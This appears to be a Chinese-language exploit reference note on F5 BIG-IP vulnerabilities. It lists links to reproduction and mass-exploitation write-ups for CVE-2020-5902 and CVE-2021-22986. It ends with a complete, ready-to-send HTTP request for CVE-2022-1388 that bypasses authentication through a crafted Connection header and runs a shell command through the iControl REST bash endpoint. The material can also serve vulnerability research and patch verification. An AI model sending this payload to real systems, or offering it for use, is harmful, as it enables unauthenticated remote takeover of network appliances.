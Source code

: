 # F5 big

F5 Networks K52145254：TMUI RCE 漏洞 CVE-2020-5902
+ [HSQLDB反序列化](https://buaq.net/go-84779.html)


F5 BIGIP iControl REST CVE-2021-22986
+ [脚本小子是如何复现漏洞(CVE-2021-22986)并实现批量利用](https://mp.weixin.qq.com/s/cavKq04hNU5pJoTBiPMZkw)
+ [F5 BIGIP iControl REST CVE-2021-22986漏洞分析与利用](https://www.anquanke.com/post/id/236159)
+ [F5 BIG-IP Cookie 信息泄露利用工具](https://mp.weixin.qq.com/s/RzYSA1ADrIQYQxqjug62sg)
+ [漏洞复现-F5 BIG-IP远程代码执行漏洞(CVE-2021-22986)](https://mp.weixin.qq.com/s/CDST3_FcVM8tvB0hTlrsJg)

CVE-2022-1388
+ [BIG-IP(CVE-2022-1388)从修复方案分析出exp](https://mp.weixin.qq.com/s/6gVZVRSDRmeGcNYjTldw1Q)
```
POST /mgmt/tm/util/bash HTTP/1.1
Host: 
Connection: keep-alive, X-F5-Auth-Token
Authorization: Basic YWRtaW46QVNhc1M=
Content-Length: 45

{
"command":"run",
"utilCmdArgs":"-c id"
}
```
